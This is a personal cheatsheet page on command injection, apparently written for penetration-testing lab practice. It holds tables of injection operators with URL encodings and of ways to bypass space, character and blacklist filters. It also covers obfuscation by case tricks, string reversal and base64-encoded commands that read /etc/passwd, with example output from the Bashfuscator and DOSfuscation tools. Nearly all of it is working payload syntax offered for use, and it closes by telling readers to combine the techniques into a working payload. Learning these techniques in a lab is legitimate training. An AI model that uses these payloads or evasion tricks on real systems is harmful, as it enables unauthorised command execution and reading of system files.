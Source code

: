 ```yaml
---
layout: post
title: "Cheatsheet-Command-Injection"
description: Cheatsheet for command injection techniques.
---
```


<p>These cheatsheets serve as my personal quick reference. Therefore, they’re less organized than the box walkthroughs, but I’ve shared them in case others find them useful.</p>

<style>
table {
  width: auto;
  border-collapse: collapse;
  table-layout: auto; /* let the content decide column width */
}


th, td {
  border: 1px solid #333;
  padding: 8px;
  text-align: left;
  vertical-align: top;
}
#evasion_tools {
  table-layout: fixed;
  width: 100%;
}



code {
  white-space: nowrap;  /* keep code on a single line */
}
</style>


<h2>Command injection methods</h2>

<table cellpadding="6" cellspacing="0">
  <thead>
    <tr>
      <th>Operator</th>
      <th>Symbol</th>
      <th>URL Encoded</th>
      <th>Execution Behavior</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Semicolon</td>
      <td>;</td>
      <td>%3b</td>
      <td>Both</td>
    </tr>
    <tr>
      <td>New Line</td>
      <td>\n</td>
      <td>%0a</td>
      <td>Both</td>
    </tr>
    <tr>
      <td>Background</td>
      <td>&amp;</td>
      <td>%26</td>
      <td>Both (second output generally shown first)</td>
    </tr>
    <tr>
      <td>Pipe</td>
      <td>|</td>
      <td>%7c</td>
      <td>Both (only second output is shown)</td>
    </tr>
    <tr>
      <td>AND</td>
      <td>&amp;&amp;</td>
      <td>%26%26</td>
      <td>Both (only if first succeeds)</td>
    </tr>
    <tr>
      <td>OR</td>
      <td>||</td>
      <td>%7c%7c</td>
      <td>Second (only if first fails)</td>
    </tr>
    <tr>
      <td>Sub-Shell</td>
      <td>``</td>
      <td>%60%60</td>
      <td>Both (Linux-only)</td>
    </tr>
    <tr>
      <td>Sub-Shell</td>
      <td>$()</td>
      <td>%24%28%29</td>
      <td>Both (Linux-only)</td>
    </tr>
  </tbody>
</table>

<p>Note: Id there is only sanitization happening on front-end (can see as there are no network requests being made in developer tools). Then, this can be bypassed by intercepting a request with Burpsuite and editing it there.</p>

<h2>Bypassing space filters</h2>

<table cellpadding="6" cellspacing="0">
  <thead>
    <tr>
      <th>Bypass Technique</th>
      <th>Description</th>
      <th>Example Usage</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>%09 (Tab)</td>
      <td>Replaces the space with a tab character. Both Linux and Windows interpret tabs as valid argument separators.</td>
      <td><code>127.0.0.1%0a%09whoami</code></td>
    </tr>
    <tr>
      <td>${IFS}</td>
      <td>Uses the Linux Internal Field Separator (defaults to space/tab). Expands into a space automatically.</td>
      <td><code>127.0.0.1%0a${IFS}whoami</code></td>
    </tr>
    <tr>
      <td>Brace Expansion</td>
      <td>Leverages Bash brace expansion to insert a space between arguments without explicitly typing it.</td>
      <td><code>127.0.0.1%0a{ls,-la}</code></td>
    </tr>
  </tbody>
</table>

<h2>Bypassing restricted characters</h2>

<table cellpadding="6" cellspacing="0">
  <thead>
    <tr>
      <th>Bypass Technique</th>
      <th>Linux</th>
      <th>Windows</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Environment Variables</td>
      <td>
        Extract specific characters from environment variables.  
        <br><code>${PATH:0:1}</code> → <code>/</code>  
        <br><code>${LS_COLORS:10:1}</code> → <code>;</code>
      </td>
      <td>
        Use substring extraction in CMD or indexing in PowerShell.  
        <br><code>%HOMEPATH:~6,-11%</code> → <code>\</code> -11% is length 
        <br><code>$env:HOMEPATH[0]</code> → <code>\</code>
      </td>
    </tr>
    <tr>
      <td>Character Shifting</td>
      <td>
        Shift ASCII characters using <code>tr</code>.  
        <br>Example (get <code>\</code>):  
        <br><code>echo $(tr '!-}' '"-~' &lt;&lt;&lt; [)</code> change "]" with previous char
      </td>
      <td>
        PowerShell can shift characters by ASCII values, though syntax is longer.  
        Example: use <code>[char](91+1)</code> to produce <code>\</code>.
      </td>
    </tr>
    <tr>
      <td>Exploring Variables</td>
      <td>
        Use <code>printenv</code> to list environment variables and pick useful characters.
      </td>
      <td>
        Use <code>Get-ChildItem Env:</code> in PowerShell to explore environment variables for usable characters. Use as follows: <code>$env:PROGRAMFILES[10]</code>
      </td>
    </tr>
  </tbody>
</table>

<h2>Bypassing blacklisted commands</h2>
<table cellpadding="6" cellspacing="0">
  <thead>
    <tr>
      <th>Bypass Technique</th>
      <th>Linux</th>
      <th>Windows</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Insert Quotes (works on both)(need to be even and not mixed)</td>
      <td>
        Use single or double quotes between characters.  
        <br><code>w'h'o'am'i</code>  
        <br><code>w"h"o"am"i</code>
      </td>
      <td>
        Same trick works in CMD and PowerShell.  
        <br><code>w'h'o'am'i</code>  
        <br><code>w"h"o"am"i</code>
      </td>
    </tr>
    <tr>
      <td>Ignored Characters (Linux only)</td>
      <td>
        Insert Bash-tolerated characters inside commands.  
        <br><code>who$@ami</code>  
        <br><code>w\ho\am\i</code>
      </td>
      <td>
        – (not applicable)
      </td>
    </tr>
    <tr>
      <td>Caret Insertion (Windows only)</td>
      <td>
        – (not applicable)
      </td>
      <td>
        Insert <code>^</code> into commands in CMD.  
        <br><code>who^ami</code>
      </td>
    </tr>
  </tbody>
</table>

<h2>Advanced command obfuscation</h2>

<table cellpadding="6" cellspacing="0">
  <thead>
    <tr>
      <th>Obfuscation Technique</th>
      <th>Linux</th>
      <th>Windows</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Case Manipulation</td>
      <td>
        Linux is case-sensitive, so we must normalize case.  
        <br><code>$(tr "[A-Z]" "[a-z]" &lt;&lt;&lt; "WhOaMi")</code>  
        <br><code>$(a="WhOaMi"; printf %s "${a,,}")</code>
      </td>
      <td>
        Windows is case-insensitive, so any variation works.  
        <br><code>WhOaMi</code>  
        <br><code>WHOAMI</code>
      </td>
    </tr>
    <tr>
      <td>Reversed Commands</td>
      <td>
        Reverse string with <code>rev</code> and execute.  
        <br><code>echo 'whoami' | rev</code> → <code>imaohw</code>  
        <br><code>$(rev &lt;&lt;&lt; 'imaohw')</code>
      </td>
      <td>
        Reverse string with PowerShell array slicing.  
        <br><code>"whoami"[-1..-20] -join ''</code> → <code>imaohw</code>  
        <br><code>iex "$('imaohw'[-1..-20] -join '')"</code>
      </td>
    </tr>
    <tr>
      <td>Encoded Commands (Base64)</td>
      <td>
        Encode command and decode at runtime.  
        <br><code>echo -n 'cat /etc/passwd | grep 33' | base64</code>  
        <br><code>bash &lt;&lt;&lt; $(base64 -d &lt;&lt;&lt; Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)</code>
      </td>
      <td>
        Encode command to UTF-16LE b64.  
        <br><code>[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))</code>
        <br><code>iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"</code>
      </td>
    </tr>
  </tbody>
</table>

<h2>Evasion tools</h2>


<table cellpadding="6" cellspacing="0" id="evasion_tools">
  <colgroup>
    <col style="width: 15%">
    <col style="width: 10%">
    <col style="width: 50%">
    <col style="width: 25%">
  </colgroup>
  <thead>
    <tr>
      <th>Tool</th>
      <th>Platform</th>
      <th>Description</th>
      <th>Example Usage</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Bashfuscator</td>
      <td>Linux</td>
      <td>
        Obfuscates Bash commands using multiple techniques.
      </td>
      <td>
        <code>./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1</code><br>
        Execute with: <code>bash -c 'eval "$(W0=(w \ t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"'</code>
      </td>
    </tr>
    <tr>
      <td>DOSfuscation</td>
      <td>Windows</td>
      <td>
        Interactive tool to obfuscate CMD or PowerShell commands.
      </td>
      <td>
        <code>Invoke-DOSfuscation&gt; SET COMMAND type C:\Users\htb-student\Desktop\flag.txt</code><br>
        <code>Invoke-DOSfuscation&gt; encoding</code><br>
        Execute in CMD or PowerShell: <code>typ%TEMP:~-3,-2% %CommonProgramFiles:~17,-11%:\Users\h%TMP:~-13,-12%b-stu%SystemRoot:~-4,-3%ent%TMP:~-19,-18%%ALLUSERSPROFILE:~-4,-3%esktop\flag.%TMP:~-13,-12%xt</code>
      </td>
    </tr>
  </tbody>
</table>

<p>Combine all these techniques to get a working payload</p>






